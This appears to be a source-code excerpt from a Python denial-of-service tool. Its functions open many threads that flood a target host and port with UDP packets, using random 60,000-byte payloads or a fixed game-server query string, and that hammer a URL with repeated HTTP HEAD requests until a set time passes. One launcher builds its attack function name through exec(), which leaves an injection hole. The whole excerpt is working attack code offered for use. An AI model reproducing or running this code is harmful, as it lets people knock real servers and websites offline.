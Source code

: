 def vse(host, port, rand, until_datetime):
    sock = socket.socket(socket.AF_INET, socket.IPPROTO_IGMP)
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            sock.sendto("\x06\x00/\x00\x00\x00\x02\x0c\x00", (host, int(port)))
        except:
            sock.close()
            pass
def runsender(host, port, th, t, payload):
    if payload == "":
        payload = random._urandom(60000)
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    #payload = Payloads[method]
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=sender, args=(host, port, until, payload))
            thd.start()
        except:
            pass

def sender(host, port, until_datetime, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            sock.sendto(payload, (host, int(port)))
        except:
            sock.close()
            pass
            
#endregion

#region METHOD

#region HEAD

def Launch(url, th, t, method): #testing
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    for _ in range(int(th)):
        try:
            exec("threading.Thread(target=Attack"+method+", args=(url, until)).start()")
        except:
            pass


def LaunchHEAD(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackHEAD, args=(url, until))
            thd.start()
        except:
            pass

def AttackHEAD(url, until_datetime):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            requests.head(url)
            requests.head(url)
        except:
            pass
#endregion
